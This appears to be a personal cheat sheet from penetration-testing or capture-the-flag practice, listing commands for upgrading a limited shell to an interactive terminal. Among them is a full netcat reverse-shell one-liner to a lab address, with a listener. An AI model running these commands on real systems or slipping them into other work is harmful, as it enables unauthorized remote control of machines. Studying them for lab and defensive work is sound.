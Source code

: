for Bash:    
```    
python3 -c 'import pty; pty.spawn("/bin/bash")'    
```    
- python3    
```    
python -c 'import pty; pty.spawn("/bin/bash")'     
```    
- python    
if no bash, press ctrl-z, which suspends terminal. type this into normal terminal:    
```    
stty raw -echo; fg    
```    
- press enter twice    
-     
sometimes just `/bin/bash` or `/bin/sh`could work    
    
```    
echo os.system('/bin/bash')    
```    
    
```    
perl -e 'exec "/bin/bash";'    
```    
- if perl is installed    
    
t/s above commands:    
```    
echo $0    
```    
- see what shell im in    
```    
which python    
```    
- see if python exists    
```    
which python3    
```    
- see if python3 exists    
    
if shell is non-interactive (can run commands but cant cd) and get `No input file specified` response when trying above commands and/or shell says something like `Can't acces tty; job crontol turned off` initially, try another reverse shell    
```    
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.142 4444 >/tmp/f    
```    
- listener `nc -lvnp 4444`    
    
to fix `nc` shell:    
```    
export SHELL=/bin/bash     
```    
    
```    
export TERM=xterm-256color     
```    
    
```    
stty rows 24 columns 80    
```    
    
For windows, start listener with rlwrap:    
```    
rlwrap -cAr nc -lnvp 443    
```    